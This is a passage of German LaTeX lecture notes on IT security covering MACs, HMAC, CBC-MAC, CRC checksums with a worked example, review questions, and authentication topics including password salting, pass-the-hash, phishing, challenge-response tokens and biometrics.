		        			\item Muss zusätzlich ein qualifiziertes Zertifikat und eine sichere Signaturerstellungseinheit vorweisen.
		        		\end{itemize}
	        	\end{itemize}
        	\item Eine Folge des Signaturgesetzes ist, dass der Personalausweis (bzw. die IDs auf der Rückseite) nicht weitergegeben werden darf.
        	\item Sei dem 1. Juli 2016 in Kraft ist das eIDAS (Electronic Identification, Authentication and Trust Services), dass das nationale Signaturgesetz ablöst.
	        	\begin{itemize}
	        		\item Sehr ähnlich zum alten Signaturgesetz.
	        		\item Definiert aber neben der elektronischen Signatur noch weitere Authentisierungsarten:
		        		\begin{itemize}
		        			\item Elektronische Siegel (für juristische Personen)
		        			\item Zeitstempel
		        			\item Zustellungsdienste
		        			\item Webseitenauthentisierung
		        			\item u.v.m.
		        		\end{itemize}
	        	\end{itemize}
        \end{itemize}
    % end

    \section{Message Authentication Code (MAC)}
        \textit{Message Authenticate Codes} (MACs) sind Signaturen, die symmetrische Verfahren verwenden, d.h. sowohl zur Erstellung als auch zur Verifizierung einer Signatur ist der gleiche geheime Schlüssel zu verwenden. MACs können immer dann eingesetzt werden, wenn die Vorteile der asymmetrischen Signaturen nicht gebraucht werden, da MACs im Allgemeinen deutlich schneller arbeiten, eine geringere Komplexität aufweisen. Außerdem ist nicht kryptografisch Beweisbar, welche Person eine Nachricht signiert hat, sofern diese den Schlüssel besitzt.

        \subsection{Prinzip}
            Für MACs wird zur Signatur und Verifikation der gleicher geheime Schlüssel \(k\) verwendet, es handelt sich also um ein symmetrisches Verfahren:
            \begin{figure}[H]
            	\centering
            	\begin{tikzpicture}[align = center, nc/.style = { minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
	            	\node [nc, draw, label = below:{Signatur- \\ verfahren}] (enc) {\(\MAC\)};
	            	\node [right = 2 of enc] (c) {Signatur \( s \)};
	            	\node [nc, draw, right = 2 of c, label = below:{Verifikations- \\ verfahren}] (dec) {\(\Vf\)};
	            	
	            	\node [left = of enc] (m1) {Nachricht \(m\)};
	            	\node [above = of enc] (k1) {geheimer \\ Schlüssel \\ \(k\)};
	            	
	            	\node [right = of dec] (m2) {\(\mathfrak{t} \,/\, \mathfrak{f}\)};
	            	\node [above = of dec] (k2) {geheimer \\ Schlüssel \\ \(k\)};
	            	
	            	\coordinate [below = 0.5 of dec.west] (needle);
	            	\node [left = 2 of needle] (m) {Nachricht \(m\)};
	            	
	            	\draw [->] (m) -- (needle);
	            	
	            	\draw [->] (enc) -- (c);
	            	\draw [->] (c) -- (dec);
	            	\draw [->] (m1) -- (enc);
	            	\draw [->] (k1) -- (enc);
	            	\draw [->] (dec) -- (m2);
	            	\draw [->] (k2) -- (dec);
	            	
	            	\draw [bend left] (k1) to node[below]{Symmetrie \\ gleicher Schlüssel} (k2);
            	\end{tikzpicture}
            	\caption{Prinzip von Message Authentication Codes}
            	Für die funktionale Korrektheit muss für alle Nachrichten \(m\) und alle Schlüssel \((k)\) gelten:
            	\begin{equation*}
	            	\Vf(k,\, m,\, \MAC(k, m)) = \mathfrak{t}
            	\end{equation*}
            \end{figure}
        
            \paragraph{Verifikation}
	            Zur Verifikation eines MACs wird der MAC erneut berechnet und auf Gleichheit mit dem gesendeten MAC geprüft. Sind die berechneten MACs gleich, so ist die Signatur gültig.
            % end
        % end
        
        \subsection{Praxis}
            In der Praxis wird auch bei MACs ein Hash-basierter Ansatz verwendet, in diesem Falle wird von \textit{HMAC} (Hash-MAC) gesprochen.
            
            Für die Bildung unter SHA-1, SHA-2 oder SHA-3 wird folgende Funktion verwendet (mit \( \textrm{opad} = \texttt{0x5C 0x5C 0x5C} \cdots \) und \( \textrm{ipad} = \texttt{0x36 0x36 0x36} \cdots \)):
            \begin{equation*}
	            \HMAC(k,\, m) = H(k \oplus \textrm{opad} \,\vert\, H(k \oplus \textrm{ipad} \,\vert\, m))
            \end{equation*}
            Aufgrund der anderen Struktur von SHA-3 kann hier sogar \( \HMAC(k,\, m) = \textrm{SHA-3}(k \,\vert\, m) \) verwendet werden.
            
            \paragraph{CBC-MAC}
	            Damit MACs in der Praxis auch mit beliebig langen Nachrichtenlängen eingesetzt werden können, wird CBC mit MACs als \textit{CBC-MACs} eingesetzt:
				\begin{figure}[H]
					\centering
					\begin{tikzpicture}[align = center, nc/.style = { draw, minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
						\node [nc] (nc1) {};
						\node [nc, right = 2 of nc1] (nc3) {};
						\node [right = 1 of nc3] (ncd) {\(\cdots\)};
						\node [nc, right = 1.5 of ncd] (ncn) {};
						\node [nc, right = 2 of ncn] (nck) {};
						\node [left = 0.5 of nc1] (k1) {\(k\)};
						\node [left = 0.5 of nc3] (k3) {\(k\)};
						\node [left = 0.5 of ncn] (kn) {\(k\)};
						\node [left = 0.5 of nck] (kk) {\(k\)};
						\node [above = 0.5 of nc1] (xor1) {\(\oplus\)};
						\node [above = 0.5 of nc3] (xor3) {\(\oplus\)};
						\node [above = 0.5 of ncn] (xorn) {\(\oplus\)};
						\node [nc, above = 0.5 of nck] (xork) {};
						\node [above = 1 of xor1] (m1) {\(m_1\)};
						\node [above = 1 of xor3] (m3) {\(m_2\)};
						\node [above = 1 of xorn] (mn) {\(m_n \,\Vert\, \texttt{10\dots0}\)};
						\coordinate [above = 1 of xork] (mk);
						\node [below = 1 of nc1] (c1) {\(c_1\)};
						\node [below = 1 of nc3] (c3) {\(c_3\)};
						\node [below = 1 of ncn] (cn) {\(c_n\)};
						\node [below = 2 of nck] (ck) {\(\MAC((k, k^*), m)\) \\ evtl. noch ab 96 Bits abschneiden};
						\node [left = 0.5 of xor1] (iv) {IV};
						\node [left = 0.5 of xork] (ks) {\(k^*\)};
						
						\draw [->] (m1) -- (xor1);
						\draw [->] (m3) -- (xor3);
						\draw [->] (mn) -- (xorn);
						\draw [->] (mk) -- (xork);
						\draw [->] (xor1) -- (nc1);
						\draw [->] (xor3) -- (nc3);
						\draw [->] (xorn) -- (ncn);
						\draw [->] (xork) -- (nck);
						\draw [->] (nc1) -- (c1);
						\draw [->] (nc3) -- (c3);
						\draw [->] (ncn) -- (cn);
						\draw [->] (nck) -- (ck);
						\draw [->] (k1) -- (nc1);
						\draw [->] (k3) -- (nc3);
						\draw [->] (kn) -- (ncn);
						\draw [->] (kk) -- (nck);
						
						\draw [->] (ks) -- (xork);
						
						\draw [->] (iv) -- (xor1);
						
						\coordinate [right = 1 of c1] (needle1);
						\draw (c1) -- (needle1);
						\draw [->] (needle1) |- (xor3);
						
						\coordinate [right = 0.9 of c3] (needle3);
						\draw (c3) -- (needle3);
						\draw [->] (needle3) |- (ncd);
						
						\coordinate [right = 0.4 of ncd] (needled);
						\draw (ncd) -- (needled);
						\draw [->] (needled) |- (xorn);
						
						\coordinate [left = 2 of mk] (needlek);
						\draw (cn) -| (needlek);
						\draw (needlek) -| (xork);
					\end{tikzpicture}
					\caption{CBC-MAC}
				\end{figure}
            % end
        % end

        \subsection{Authenticated Encryption}
            \textit{Authenticated Encrytpion} stellt eine Kombination aus Vertraulichkeit und Integrität dar. Dazu wird eine Nachricht \(m\) zuerst Verschlüsselt und anschließend ein MAC über Zusatzdaten (Associated Data, AD, z.B. TCP-Header) und den Ciphertext gebildet. Beim Empfangen prüft der Empfänger zunächst, ob die Signatur stimmt und nur wenn dies der Fall ist wird die Nachricht entschlüsselt. Dieses Vorgehen wird \textit{Encrypt-then-MAC} genannt.
            
            \subparagraph{Verschlüsseln und Signieren}
            \begin{equation*}
                C = \text{SymEnc}(k,\, m) \qquad t = \MAC(k^*,\, \textrm{AD},\, C) \qquad \textrm{Ausgabe: } (\textrm{AD},\, C,\, t)
            \end{equation*}
            
            \subparagraph{Signatur prüfen und Entschlüsseln}
            \begin{equation*}
                \Vf(k^*,\, \textrm{AD} \vert C,\, t) = \mathfrak{t} \quad\rightarrow\quad m = \Dec(k,\, C)
            \end{equation*}
        % end
    % end

    \section{Prüfsummen}
        Digitale Signaturen sind kryptografische Prüfsummen, um unerlaubte Eingriffe in die Kommunikation zu erkennen (Security). Normale Prüfsummen dienen dazu, Fehler in der Kommunikation zu erkennen (Safety).

        \subsection{Paritätsprüfsumme}
            \begin{itemize}
            	\item Sender hat eine Nachricht \( m = b_0 \vert b_1 \vert \cdots \vert b_{n - 1} \) mit \( b_i \in \{0,1\}^\mathbb{B} \).
            	\item Berechnung des Paritätsbits: \( b = b_0 \oplus b_1 \oplus \cdots \oplus b_{n-1} \)
            	\item Sende \( m \vert b \)
            	\item Der Empfänger kann nun Überprüfen, ob \( b = b_0 \oplus b_1 \oplus \cdots \oplus b_{n-1} \) gilt. \\ Falls ja wird \(m\), falls nein ein Fehler ausgegeben.
	            	\begin{itemize}
		            	\item Ist kein Bit falsch, so gibt der Empfänger \(m\) aus.
		            	\item Ist ein Bit falsch, so gibt der Empfänger einen Fehler aus.
		            	\item Sind zwei oder mehr Bits gekippt, kann das Paritätsbit keine verlässliche Aussage mehr treffen.
	            	\end{itemize}
            	\item Damit können Fehler entdeckt, aber nicht korrigiert werden.
            \end{itemize}
        % end

        \subsection{Cyclic Redundancy Check (CRC)}
            Bei \textit{Cyclic Redundancy Checks} (CRCs)  wird die Nachricht als Polynom \( a_0x^0 + a_1x^2 + \cdots + a_{n-1}x^{n-1} \) mit Koeffizienten \( a_i \in \{0,1\} \) abgebildet und die Prüfsumme als Divisionsrest von \( \frac{M(x)}{C(x)} \) angegeben.
            
            Dabei ist \( M(x) \) die Nachricht \( m = b_0 \vert b_1 \vert \cdots \vert c_{n-1} \) als Polynom \( M(x) = b_0x^0 + b_1x^1 + \cdots + b_{n-1}x^{n-1} \) und \(C(x)\) ein geeignetes CRC-Polynom, z.B. \( C(x) = x^0 + x^1 + \cdots + x^32 \) (CRC-32).
            
            \paragraph{Bilden der Prüfsumme}
                \begin{enumerate}
                	\item Wahl eines geeigneten CRC-Polynoms, z.B. CRC-32.
                	\item Kodierung der Nachricht als \( M(x) \).
                	\item Senden von \(m\) und \( \textrm{CRC}(m) = \textrm{Divisionsrest von } \frac{M(x)}{C(x)} \).
                \end{enumerate}
            % end
            
            \paragraph{Prüfen der Prüfsumme}
                Der Empfänger bildet die Prüfsumme \( \textrm{CRC}(m^*) \) der empfangenen Nachricht \( m^* \) und prüft, um das Ergebnis mit der erhaltenen Summe übereinstimmt.
                
                Für geeignete CRC-Polynome kann so jede ungerade Anzahl an Bitflipps erkannt werden. Dies ist insbesondere bei aufeinanderfolgenden Fehlern besonders effektiv.
            % end
            
            \paragraph{Beispiel}
                Es soll die Prüfsumme für die Nachricht \( m = \texttt{101000111} \) mit dem CRC-Polynom \( C(x) = x^3 + x^2 + x \) berechnet werden. Hierzu werden der Nachricht zuerst drei Nullen angehängt (\( \lvert\text{Nullen}\rvert = \text{Grad}(C) \)) und diese modifizierte Nachricht durch das CRC-Polynom geteilt, welches auch als \texttt{1110} dargestellt werden kann (die Koeffizienten werden aneinander gehängt).
                
                Die Polynomdivision wird wie folgt durchgeführt:
                \begin{center}
                	\begin{BVerbatim}
101000111000 : 1110 = 111011111
1110
 1000
 1110
  1100
  1110
   0101
   0000
    1011
    1110
     1011
     1110
      1010
      1110
       1000
       1110
        1100
        1110
         010
\end{BVerbatim}
                \end{center}
                Dabei wird dem Ergebnis eine \(1\) angehängt, wenn die aktuelle Zahl mit einer \(1\) beginnt und eine \(0\) falls nicht. Statt der üblichen Subtraktion in den einzelnen Schritten wird ein Bitweises XOR ausgeführt, um die Einzelteile zu verknüpfen.
                
                Die Prüfsumme ist nun der Rest \texttt{010}, die an die eigentliche Nachricht angehängt und versendet wird: \( m^* = \texttt{101000111\underline{010}} \)
                
                Zum Prüfen der Nachricht wird die Nachricht mit Anhang erneut durch das CRC-Polynom dividiert:
                \begin{center}
                	\begin{BVerbatim}
101000111010 : 1110 = 111011111
1110
 1000
 1110
  1100
  1110
   0101
   0000
    1011
    1110
     1011
     1110
      1010
      1110
       1001
       1110
        1110
        1110
         000
\end{BVerbatim}
                \end{center}
                Kommt bei dieser Division der Rest \(0\) heraus, war die Prüfsumme korrekt.
            % end
        % end
    % end

    \section{Fragen}
			\paragraph{Welche Hash-Funktionen von MD5, SHA-1, SHA-2 und SHA-3 können Sie noch als kollisionsresistent ansehen?}
			Nur SHA-2 und SHA-3 können noch als kollisionsresistent angesehen werden.
			
			\paragraph{Ist folgende Hashfunktion \( H(m_1, m_2) = m_1 \oplus m_2 \) für \( m_1, m_2 \in \{0, 1\}^{256} \) kollisionsresistent?}
			Nein, für jede Kombination \( m_1, m_2 \) können sehr einfach Kollisionen erzeugt werden, indem in jeder Nachricht ein Bit an der gleichen Position geflippt wird.
			
			\paragraph{Was ist mit folgender Idee? Da \(H(m)\) quasi eindeutig ist, kann man \(H(m)\) als Signatur zur Nachricht m benutzen.}
			Nein, dies kann nur als Prüfsumme verwendet werden, da nicht geprüft werden kann, von wem die Signatur erstellt wurde.
			
			\paragraph{Wie funktioniert eine RSA-Signatur?}
			Eine RSA-Signatur wird ähnlich die eine RSA-Verschlüsselung gebildet, nur wird die Nachricht mit dem privaten Schlüssel verschlüsselt, sodass sie nur mit dem dazugehörigen öffentlichen Schlüssel verifiziert werden kann.
			
			\paragraph{Diskutieren Sie folgende Aussage: \enquote{Signaturen sind die Umkehrung von Verschlüsselung.}}
			Dies ist im Falle von RSA-Signaturen korrekt, ist im Allgemeinen jedoch nicht richtig.
			
			\paragraph{Diskutieren Sie folgende Aussage: \enquote{Jedes Signatur-Verfahren ist vom Typ Hash-and-Sign.}}
			Dies ist nicht korrekt, bspw. kann eine RSA-Signatur auch gebildet werden ohne einen Hashwert der Nachricht zu berechnen.
			
			\paragraph{Nennen Sie (die) drei Möglichkeiten, um einen öffentlichen Schlüssel zu prüfen.}
			\begin{enumerate}
				\item Direkte Bestätigung
				\item Web of Trust
				\item Zertifikate
			\end{enumerate}
			
			\paragraph{Können Sie sich vorstellen, warum Zertifizierungsinstanzen anno 2009 noch MD5 verwendet haben, obwohl MD5 quasi 2005 gebrochen war?}
			Ein Umstieg auf neue Systeme ist meistens schwer, außerdem haben ältere Browser noch keine moderneren Hashfunktionen unterstützt.
			
			\paragraph{Diskutieren Sie Vor- und Nachteile von CRLs gegenüber OSCP zur Zertifikationsüberprüfung.}
			\begin{itemize}
				\item CRLs müssen aktualisiert werden, OSCP ist sekundengenau
				\item OCSP liefert keine signierten Fehlermeldungen, weshalb der Angreifer hier mit einer MitM-Attacke ein \enquote{Try Later} zurückgeben kann, was von den meisten Clients als \enquote{Good} interpretiert wird.
			\end{itemize}
			
			\paragraph{Warum kann man MACs nicht als elektronische Signaturen verwenden?}
			Bei MACs kann nicht festgestellt werden, wer die Signatur erstellt hat, was allerdings der inhärente Zweck von elektronischen Signaturen ist.
			
			\paragraph{Warum ist folgendes \enquote{hybride} Signaturverfahren keine gute Idee? Um \(m\) zu signieren wähle man Schlüssel \(k\), berechne \(s = \Sig(k_s, k) \) und \(t = MAC(k, m)\) und gebe \((s, t, k)\) aus.}
			Mit diesem Signaturverfahren kann \(s\) einfach für eine neue Nachricht kopiert werden und eine MAC mit dem gleichen (mitgesendeten) Schlüssel berechnet werden. Dadurch, dass die Nachricht nicht in \(s\) einfließt sieht es weiterhin so aus, als hätte der Besitzer von \(k_s\) die Nachricht gesendet.
			
			\paragraph{Warum kann man nicht den letzten Block einfach so als CBC-MAC der Nachricht \(m\) nehmen?}
			To-Do \todo{Answer}
    % end
% end

\chapter{Authentisierung und Autorisierung}
    Authentisierung und Autorisierung sind Teil der \textit{Zugriffskontrolle} eines Systems und lassen sich wie folgt einordnen:
    \begin{figure}[H]
    	\centering
    	\begin{tikzpicture}[align = center, main/.style = { draw, rectangle, minimum width = 3cm, rounded corners }]
        	\node [main, label = right:{Identität feststellen}] (a) {Identification \\ Identifikation};
        	\node [main, below = 1 of a, label = right:{Identität bestätigen}] (b) {Authentication \\ Authentisierung};
        	\node [main, below = 1 of b, label = right:{Bestimmen, was gemacht werden darf}] (c) {Authorization \\ Autorisierung};
        	\node [main, below = 1 of c, label = right:{Protokollierung}] (d) {(Accounting \\ Buchhaltung)};
        	
        	\coordinate [above = 0.5 of a.north west] (A);
        	\coordinate [left = 1 of A] (B);
        	\coordinate [below = 0.5 of b.south west] (C);
        	\coordinate [left = 1 of C] (D);
        	
        	\draw (A) -- (B) -- node[left]{meistens zusammen} (D) -- (C);
        	
        	\coordinate [above = 0.5 of b.north west] (E);
        	\coordinate [left = 0.5 of E] (F);
        	\coordinate [below = 0.5 of d.south west] (G);
        	\coordinate [left = 0.5 of G] (H);
        	
        	\draw (E) -- (F) -- node[left]{AAA} (H) -- (G);
        	
        	\draw [->] (a) -- (b);
        	\draw [->] (b) -- (c);
        	\draw [->] (c) -- (d);
    	\end{tikzpicture}
    	\caption{Zugriffskontrolle: Überblick}
    \end{figure}
    Wichtig: Identifikation \(\neq\) Authentisierung! Bei der reinen Identifikation wird der anderen Partei vertraut, wer sie sagt wer ist ist, bei der Authentisierung wird dies überprüft.
    
    Zusammen sorgen Authentisierung und Autorisierung für Vertraulichkeit und Autorisierung sorgt für Integrität und zum Teil auch für Verfügbarkeit.

    \section{Mittel zur Authentisierung}
        Zur Authentisierung gibt es verschiedene Faktoren:
        \begin{itemize}
        	\item \textbf{Was man weiß}, z.B. Passwörter
            	\begin{itemize}
            		\item[+] Einfach zu ändern
            		\item[+] Einfach transportabel
            		\item[--] Kann vergessen werden
            		\item[--] Leicht zu duplizieren
            	\end{itemize}
        	\item \textbf{Was man hat}, z.B. Chipkarte
            	\begin{itemize}
            		\item[+] Einfach transportabel
            		\item[+] Nicht leicht zu duplizieren
            		\item[--] Einfach übertragbar
            		\item[--] Einfach zu stehlen/verlieren
            	\end{itemize}
        	\item \textbf{Was man ist}, z.B. biometrische Merkmale
            	\begin{itemize}
            		\item[+] Nicht übertragbar
            		\item[+] Individuell
            		\item[--] Oft leicht fälschbar
            		\item[--] Unveränderbar
            		\item[--] Privacy-Probleme
            	\end{itemize}
        	\item Weitere Faktoren können sein: Was man ist, Was man tut, \dots
        	\item Multi-Faktor-Authentisierung kombiniert mehrere dieser Faktoren.
        \end{itemize}
    % end

    \section{2-Faktor-Authentisierung}
        \begin{itemize}
        	\item Bei der \textit{2-Faktor-Authentisierung} werden mehrere der obigen Faktoren kombiniert, zum Beispiel ein Passwort und eine SMS-Bestätigung.
        	\item Zur besseren Bedienbarkeit kann die zweite Methode nur bei Verdacht abgefragt werden, z.B. bei dem Zugriff von einem neuen Computer aus.
        \end{itemize}
    % end

    \section{Passwörter}
        \subsection{Speicherungsmethoden}
            Passwörter müssen in irgendeiner Form gespeichert werden, damit diese bei der Authentisierung abgefragt werden können.
        
            \paragraph{Klartext}
                \begin{itemize}
                    \item Der Server speichert alle Passwörter in Klartext.
                    \item \textbf{Schlecht!}
                	\item Bei einem Angriff auf die Datenbank könnten alle Passwörter gestohlen werden.
                \end{itemize}
            % end

            \paragraph{Verschlüsselung}
                \begin{itemize}
                	\item Der Server speichert alle Passwörter verschlüsselt mit einem öffentlichen Schlüssel und besitzt selbst den geheimen Schlüssel.
                	\item Zur Authentisierung wird das Passwort entschlüsselt und mit dem eingegebenen Passwort verglichen.
                	\item \textbf{Schlecht!}
                	\item Bei einem Angriff auf die Datenbank könnten alle Passwörter und der geheime Schlüssel gestohlen werden, womit die Passwörter entschlüsselt werden könnten.
                \end{itemize}
            % end

            \paragraph{Hashing}
                \begin{itemize}
                	\item Der Server speichert Hashes von Passwörtern (z.B. SHA-3).
                	\item Zur Authentisierung wird das eingegebene Passwort gehasht und die Hashes verglichen.
                	\item \textbf{Schlecht!}
                	\item Bei einem Angriff auf die Datenbank könnten alle Hashes gestohlen werden. Da Hashfunktionen One-Way-Funktionen sind, kann der Angreifer die Passwörter zwar nicht direkt rekonstruieren, kann aber leicht sogenannte \textit{Rainbow-Tables} einsetzen, um mit viel Rechenleistung die Passwörter abzugleichen.
                	\item Rainbow-Tables enthalten viele Passwort-Hash-Kombinationen, die mit den gestohlenen Hashes verglichen werden können.
                \end{itemize}
            % end

            \paragraph{Salted Hashing}
                \begin{itemize}
                	\item Der Server generiert einen zufälligen \textit{Salt} (mindestens 64 Bits) und speichert diesen. Dann berechnet er berechnet einen Hash aus der Kombination aus Salt und Passwort.
                	\item Zur Authentisierung wird das eingegebene Passwort mit dem Salt kombiniert, gehasht und die Hashes verglichen.
                	\item \textbf{Dies ist die Lösung!}
                	\item Bei einem Angriff auf die Datenbank könnten zwar alle Hashes und der Salt gestohlen werden, allerdings hat der Angreifer mit hoher Wahrscheinlichkeit keine passende Rainbow-Table für den Salt und müsste alle Hashes neu berechnen.
                	\item Da diese Berechnungen sehr aufwendig sind, kann der Angreifer die Passwörter nicht in realistischer Zeit berechnen.
                	\item Weitere Gegenmaßnahmen:
                    	\begin{description}[leftmargin = 3cm]
                    		\item[Individuell] Für jeden Nutzer einen eigenen Salt generieren und neben dem Passwort ablegen.
                    		\item[Peppering]   Geheimhaltung des/der Salts.
                    		\item[Iterationen] Die Hashfunktionen mehrmals berechnen, um den Rechenaufwand für den Angreifer erheblich zu erhöhen.
                    	\end{description}
                \end{itemize}
            % end
        % end

        \subsection{Pass-the-Hash-Angriffe (PtH)}
            \begin{itemize}
            	\item In manchem Implementierungen akzeptiert der Server auch gehashte Passwörter.
            	\item Dies kann bspw. dazu genutzt werden, damit der Nutzer Passwörter nicht immer wieder eingeben muss.
            	\item Bei einem \textit{Pass-the-Hash}-Angriff (PtH) stiehlt der Angreifer den Hashwert beim Client und kann so die Passwortsperre umgehen.
            \end{itemize}
        % end

        \subsection{Stärke von Passwörter}
            \begin{itemize}
            	\item Ist ein Passwort nicht stark gewählt, ist es einfach, das Passwort zu erraten.
            	\item Entropie ist dabei das Maß für Informationen und eine Entropie von \(n\) bedeutet, dass der Angreifer \(2^n\) Möglichkeiten durchprobieren muss.
            	\item Laut einer Publikation der NIST haben 8-stellige Passwörter mit Sonderzeichen ca. \(20\)-\(30\) Bits Entropie.
            	\item Um sichere Passwörter zu erstellen sollten die folgenden grundlegenden Regeln beachtet werden:
                	\begin{itemize}
                		\item keine kurzen Passwörter mit weniger als 8 Stellen
                		\item keine Mehrfachnutzung von Passwörtern
                		\item keine persönlichen Daten wie Nutzername, Geburtstag, \dots im Passwort
                		\item keine einfachen Wörter aus Wörterbüchern
                		\item keine einfachen Transformationen wie Leetspeak (z.B. \texttt{Passw0rt})
                	\end{itemize}
            	\item Durch lokale Tests können solche Regeln einfach erzwungen werden.
            	\item Passwortmanager wie KeePass helfen bei der Verwaltung großer Mengen an Passwörtern.
            \end{itemize}

            \subsubsection{Passwörter Testen}
                Die Stärke von Passwörtern kann auf verschiedene Weisen getestet werden:
                \begin{itemize}
                	\item Brute-Force (alle Kombinationen durchprobieren)
                	\item bekannte Wörter/Wörterbücher
                	\item Kombinationen/Transformationen wie \texttt{Passw0rt}
                	\item festgelegte Regeln
                	\item etc.
                \end{itemize}
            % end
        % end

        \subsection{Phishing}
            \begin{itemize}
            	\item Bei dem \textit{Phishing} wird auf die Fehlerquelle Mensch gesetzt.
            	\item Dem Opfer wird eine E-Mail mit einem infizierten Link gesendet, der auf eine Website führt, die dem Nutzer vertraut aussieht.
            	\item Gibt der Nutzer nun hier seine Zugangsdaten ein, kann der Angreifer diese auslesen.
            	\item Ist die Phishing-Seite gut gemacht, so fällt dem Nutzer auch nach der Eingabe nicht auf, dass seine Zugangsdaten gestohlen wurden (z.B. durch eine Weiterleitung auf die echte Seite).
            \end{itemize}
        % end
    % end

    \section{Tokens}
        \begin{itemize}
        	\item Software Tokens (z.B. Web-Cookie) oder Hardware Tokens (z.B. Autoschlüssel)
        	\item Statische Tokens (Übertragung eines Geheimnisses) oder Dynamische Tokens (Berechnung mit Geheimnis)
        \end{itemize}

        \subsection{Replay-Angriffe}
            Wird das Geheimnis oder auch nur ein Hash des Geheimnisses unverschlüsselt übertragen, kann ein Angreifer das Token einfach mit lesen und erneut verwenden (\textit{Replay}).
        % end

        \subsection{Challenge-Response}
            Der Authentisierungspartner (z.B. ein Server) sendet dem Token eine \textit{Challenge}, die vom Token bearbeitet wird. Dieser Berechnet nun das Ergebnis (\textit{Response}) aus der Challenge und sendet diese zurück an den Server.
            
            Eine Replay-Attacke ist hier nicht (einfach) möglich, da der Angreifer eine neue Challenge bekommt und der abgefangene Response nicht zu der neuen Challenge passt.

            \subsubsection{Implementierung per Signaturen}
	            \begin{enumerate}
	            	\item Der Server generiert ein zufälliges \( c \in \{0,1\}^n \) als Challenge. \(n\) ist dabei meistens \(64\), \(128\) oder \(256\).
	            	\item Das Token berechnet das Ergebnis \( r = \Sig(k_s,\, c) \) oder \( r = \MAC(k,\, c) \) und sendet es an den Server.
	            	\item Dieser prüft die Signatur/den MAC und entscheidet, ob das Token valide ist.
	            	\item Ein Angreifer, der die Signatur mitgeschnitten kann, bekommt ein neues \(c\), sodass die abgefangene Signatur nicht dazu passt. Er müsste die Signatur oder MAC fälschen und müsste dazu \(k_s\) oder \(k\) haben.
	            \end{enumerate}
            % end

            \subsubsection{Implementierung per Verschlüsselung}
                \begin{enumerate}
                	\item Der Server generiert ein zufälliges \(m \in \{0,1\}^n\). \(n\) ist dabei meistens \(64\), \(128\) oder \(256\).
                	\item Nun berechnet er den Ciphertext \( C = \Enc(k_p,\, m) \) oder \( \Enc(k,\, m) \) und sendet es als Challenge.
                	\item Das Token berechnet nun die entschlüsselte Nachricht \( m = \Dec(k_s,\, C) \) oder \( \Dec(k,\, C) \) und sendet diese an den Server.
                	\item Dieser prüft nun, ob die Nachricht korrekt entschlüsselt wurde und entscheidet, ob das Token valide ist.
                	\item Ein Angreifer, der die Nachricht mitgeschnitten hat, bekommt einen neuen Ciphertext, sodass die abgefangene Nachricht nicht dazu passt. Er müsste die Nachricht korrekt entschlüsseln können und müsste dazu \(k_s\) oder \(k\) haben.
                \end{enumerate}
            % end
            
            \subsubsection{(Nicht-) Abstreitbarkeit}
	            \begin{itemize}
	            	\item Durch die Eigenschaft von Signaturen, dass sie nur von dem Besitzer des geheimen Schlüssels erstellt werden können, kann ein solcher Besitzer nicht abstreiten, eine signierte Nachricht erstellt zu haben. Diese nicht-Abstreitbarkeit führt auch dazu, dass sich jeder darauf verlassen kann, dass eine mit Alice Schlüssel signierte Nachricht auch von Alice stammt.
	            	\item Bei MACs ist dies anders: Jeder, der den geheimen Schlüssel besitzt, hätte den MAC berechnen können. Das heißt auch, dass sich niemand darauf verlassen kann, dass ein mit dem Schlüssel \(k\) erstellter MAC von einer bestimmten Person erstellt wurde.
	            \end{itemize}
            % end
        % end
    % end

    \section{Biometrie}
        \begin{itemize}
        	\item Fingerabdrücke, Retina und Iris, Gesichtserkennung, Handschrift, Sprache, u.v.m.
        	\item \textbf{Probleme}
            	\begin{itemize}
            		\item Nicht widerrufbar
            		\item Benötigt vertrauenswürdige Geräte
            		\item Oft leicht zu fälschen (Bild statt Gesicht, Fingerattrappe, \dots)
            	\end{itemize}
        \end{itemize}

        \subsection{Fingerabdruck-Minutien}
            Bei Fingerabdrücken werden nicht die gesamten Fingerabdrücke, sondern nur feine Merkmale, sogenannte \textit{Minutien} gespeichert. Dies sind Merkmale wie Verzweigungen, Endpunkte, Schleifen, Deltas oder Wirbel.
        % end

        \subsection{Fehler}
            \begin{itemize}
            	\item Bei biometrischen Merkmalen muss mit einer Fehlerrate gerechnet werden.
            	\item \textbf{False Positives} \tabto{2cm} Wird akzeptiert, ist aber nicht die korrekte Person.
            	\item \textbf{False Negatives} \tabto{2cm} Wird nicht akzeptiert, ist aber die korrekte Person.
            	\item Typischerweise sinken die false Positives, je mehr Merkmale eingesetzt werden. \\ Allerdings steigen die false Negatives, je mehr Merkmale eingesetzt werden.
            \end{itemize}
            \begin{figure}[H]
            	\centering
\begin{tikzpicture}[align = center]
\draw [->] (-5, 0) -- (5, 0) node[below]{Anzahl Merkmale};
\draw [->] (-5, 0) -- (-5, 4.5) node[left]{Fehlerrate};

\draw [scale = 1, domain = -3:3, smooth, variable = \x, TUDa-9b] plot ({\x}, { 1.5 ^ \x }) node[above, .]{False Rejection \\ Rate (FRR)};
\draw [xscale = -1, domain = -3:3, smooth, variable = \x, TUDa-1b] plot ({\x}, { 1.5 ^ \x }) node[above, .]{False Acceptance \\ Rate (FAR)};
\end{tikzpicture}
            	\caption{Fehlerrate}
            \end{figure}
            Sind beide Fehlerraten gleichen (der Punkt an dem die Funktionen sich schneiden), wird dies \textit{Equal Error Rate} genannt. Je höher dieser Wert ist, desto schlechter kann das System zwischen zulässigen und unzulässigen Eingaben unterscheiden.
        % end
    % end

    \section{CAPTCHAs}
        Ein \textit{CAPTCHA} (\textit{Completely Automated Public Turing test to Tell Computers and Humans Apart}) ist ein Verfahren, um zu prüfen, dass der Nutzer ein Mensch und keine Maschine ist.
        
        \begin{itemize}
        	\item CAPTCHAs sollen DoS-Angriffe und Spam verhindern, in dem nur Eingaben von Menschen akzeptiert werden.
        	\item Mit immer besser werdenden Schrifterkennungen werden CAPTCHAs häufig gebrochen, sodass sie auch für Menschen schwer werden.
        	\item Angenehmere Captchas sind z.B. reCAPTCHA von Google, das in der neusten Version anhand von Browser-Informationen, Cookies, Mausbewegungen, etc. erkennen kann, ob es sich um einen Menschen handelt. Nur bei hohem Risiko wird noch ein \enquote{altes} CAPTCHA angezeigt.
        \end{itemize}
    % end

    \section{Autorisierung}
        \textit{Autorisierung} beschäftigt sich damit, was ein Subjekt (z.B. ein Nutzer) darf, nachdem er Authentisiert ist.
        \begin{figure}[H]
        	\centering
        	\begin{tikzpicture}[align = center]
            	\coordinate (center);
            	\node [minimum width = 2cm, above = 0.5 of center] (system) {};
            	\node [below = 0.1 of system] {System};
